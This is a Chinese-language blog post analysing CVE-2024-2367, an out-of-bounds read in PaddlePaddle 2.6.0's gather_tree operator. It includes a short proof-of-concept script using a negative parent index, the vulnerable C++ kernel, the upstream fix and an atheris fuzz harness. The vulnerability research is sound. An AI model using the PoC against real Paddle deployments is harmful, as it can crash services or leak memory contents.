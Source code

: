 ```yaml
---
title: AI/ML漏洞调研
tags:
  - AI
  - ML
date: 2024-07-15 14:26:55
---
```



人工智能的发展已经是不可阻挡的趋势，最近AGI和agent的项目出现了很多。本文调研一个百度paddle的漏洞。

## paddlepaddle/paddle

paddle是百度的一个模型训练和推理一个框架，其还有`paddlelite`可以做移动端的推理，他们还提供了丰富的即拿即用的模型应对各种的生产环境。

### CVE-2024-2367


- 复现

这个漏洞被发现时是`paddlepaddle==2.6.0`的版本，可以简单的使用conda装一个这样的环境去测试。

```
conda create -n py3.8 python=3.8
conda activate py3.8
pip install paddlepaddle==2.6.0
python poc.py
```

poc.py
```
import paddle
import numpy as np

x = np.array([[[0]], [[0]]], dtype=np.int32)
ids = paddle.to_tensor(x)
parents = paddle.to_tensor(np.array([[[0]], [[-0x1234567]]], dtype=np.int32))

out = paddle.nn.functional.gather_tree(ids, parents)

print(out)
```

![](/assets/image/192010.png)

漏洞点在于gather_tree这个API，它用于计算Beam Search算法得出的序列。你可以不用关注这个算法具体的内容，可以抽象的认为需要向gather_tree传入两个tensor`ids`和`parents`，它们都是三个维度，第一个维度表示多少个时间序列(steps)，第二个表示batchsize，第三个表示Beam Search算法的参数。

> paddle.nn.functional.gather_tree(ids, parents): 在整个束搜索 (Beam Search) 结束后使用。在搜索结束后，可以获得每个时间步选择的的候选词 id 及其对应的在搜索树中的 parent 节点，ids 和 parents 的形状布局均为 [max_time,batch_size,beam_size]，从最后一个时间步回溯产生完整的 id 序列。



- 分析

我们先在python层进行调试，`gather_tree`算子简单的检测了`ids`和`parents`的维度就进入里CPP层。

![](/assets/image/20240506203137.png)

接着使用gdb去调试`libpaddle.so`库，在崩溃点确实看到了同样的栈回溯信息，同时也能观察到`libpaddle.so`是没有debug_info的，无法追踪到代码的行信息。崩溃的函数的签名是`void phi::GatherTreeKernel<int, phi::CPUContext>(phi::CPUContext const&, phi::DenseTensor const&, phi::DenseTensor const&, phi::DenseTensor*)`，尽管可以在此函数打breakpoint，但是`libpaddle.so`没有符号，没办法观察源码。

![](/assets/image/20240506204223.png)

在这样一个白盒条件下，我们可以查询[源码](https://github.com/PaddlePaddle/Paddle/blob/v2.6.0/paddle/phi/kernels/cpu/gather_tree_kernel.cc#L72)能够找到对应的算子的注册，以及其模板函数。

<right> {% inlineImg /assets/image/20240506201942.png 50px %} </right>

```c
template <typename T, typename Context>
void GatherTreeKernel(const Context &dev_ctx,
                      const DenseTensor &ids,
                      const DenseTensor &parents,
                      DenseTensor *out) {
  const auto *ids_data = ids.data<T>();
  const auto *parents_data = parents.data<T>();

  T *out_data = dev_ctx.template Alloc<T>(out);

  auto &ids_dims = ids.dims();
  int64_t max_length = ids_dims[0];
  auto batch_size = ids_dims[1];
  auto beam_size = ids_dims[2];
  // 从维度中取出三个参数
  PADDLE_ENFORCE_NOT_NULL(ids_data,
                          phi::errors::InvalidArgument(
                              "Input(Ids) of gather_tree should not be null."));

  PADDLE_ENFORCE_NOT_NULL(
      parents_data,
      phi::errors::InvalidArgument(
          "Input(Parents) of gather_tree should not be null."));

  for (int batch = 0; batch < batch_size; batch++) {
    for (int beam = 0; beam < beam_size; beam++) {
      auto idx =
          (max_length - 1) * batch_size * beam_size + batch * beam_size + beam;
      out_data[idx] = ids_data[idx];
      auto parent = parents_data[idx];
      // out_data[max_length-1][batch][beam] = ids_data[max_length-1][batch][beam]
      // auto parent = parents_data[max_length-1][batch][beam];
      for (int64_t step = max_length - 2; step >= 0; step--) {
        PADDLE_ENFORCE_LT(
            parent,
            beam_size,
            phi::errors::InvalidArgument(
                "The parents must be less than beam size, but received"
                "parents %d is greater than or equal to beam size %d. ",
                parent,
                beam_size));

        idx = step * batch_size * beam_size + batch * beam_size;
        out_data[idx + beam] = ids_data[idx + parent];   // <= maybe OOB read
        parent = parents_data[idx + parent];
        // out_data[step][batch][beam] = ids_data[step][batch][parent]
        // parent = parents_data[step][batch][parent];
      }
    }
  }
}

```

python端的`ids`和`parents`最终传到了`const DenseTensor &ids`和`const DenseTensor &parents`。由python端判断的它们的维度为3，在这里一个一个取出来。`PADDLE_ENFORCE_NOT_NULL`的断言是为了保证ids和parents不为空指针。

由于在C/CPP中无法在编译时预测出这些数组的形状，没办法使用`arrayPointer[x][y][z]`，想操作对应的元素只能手动计算`arrayPointer[x * (dim[1]*dim[2]) + y * (dim[2]) + z]`。

漏洞的关键在于`auto parent = parents_data[idx];`赋值时，parent可以为{% label 负值 red %}，尽管在PADDLE_ENFORCE_LT断言了一下parent要小于beam_size，但是并没有断言parrent要大于0。反过来看poc.py,`-0x1234567`便是充当这个溢出的parrent。接下来便是不可预期的行为了，parent逐步迭代，不断地从未知内存里窃取信息放到`out_data`里，能达到OOB Read，但是由于用于写的数组并没有使用parrent计算索引，无法实现OOB Write。

我手动编译了paddle的python库，添加了符号，使用gdb进行调试，确实应证了我们之前的分析。

![](/assets/image/20240507133037.png)

此外，`gather_tree`算子并不是第一次出问题了，2022年的paddle [CVE-2022-46741](https://github.com/PaddlePaddle/Paddle/blob/52a811f9138a4404b07d38cce52129efeb6f77ae/security/advisory/pdsa-2022-001.md)就出现了漏洞，上图PADDLE_ENFORCE_LT就是当时添加的patch。还有tensorfow的[issue#125](https://github.com/tensorflow/addons/issues/125)也出现了类似的错误。


- 补丁

paddle团队在[#62826](https://github.com/PaddlePaddle/Paddle/commit/765c669d5bc61faa714bf4410c83bb50da429dda)打上了这个Patch，添加了一个断言parent要大于等于0。

![](/assets/image/20240507174121.png)


- fuzz

我使用python的atheris库尝试去fuzz gather_tree这个算子，只需要简单的mutate，就能够收到本漏洞的crash。但是atheris只能`Atheris will report a failure if the Python code under test throws an uncaught exception`，对于这种segmentation fault，直接导致了线程的crash就没办法自动保存当时的输入，可以选择在代码中手动保存。

![](/assets/image/20240508101801.png)

```
import atheris

with atheris.instrument_imports():
    import sys
    import math
    import paddle

IgnoredErrors = (ValueError, RuntimeError, TypeError, AttributeError,
                 AssertionError)

def TestOneInput(data):
    with open('crash', 'wb') as fp:
        fp.write(data)
        fp.flush()

    rank = 3
    fdp = atheris.FuzzedDataProvider(data)
    dims = fdp.ConsumeIntListInRange(rank, 1, 16)

    nNum = math.prod(dims)
    ids = fdp.ConsumeIntList(nNum, 4)
    parents = fdp.ConsumeIntList(nNum, 4)

    idsTensor = paddle.to_tensor(ids, dtype=paddle.int32)
    idsTensor = paddle.reshape(idsTensor, dims)

    parentsTensor = paddle.to_tensor(parents, dtype=paddle.int32)
    parentsTensor = paddle.reshape(parentsTensor, dims)

    try:
        paddle.nn.functional.gather_tree(idsTensor, parentsTensor)
    except IgnoredErrors:
        return

atheris.Setup(sys.argv, TestOneInput)
atheris.Fuzz()

# with open('crash', 'rb') as fp:
#     data = fp.read()
# TestOneInput(data)
```
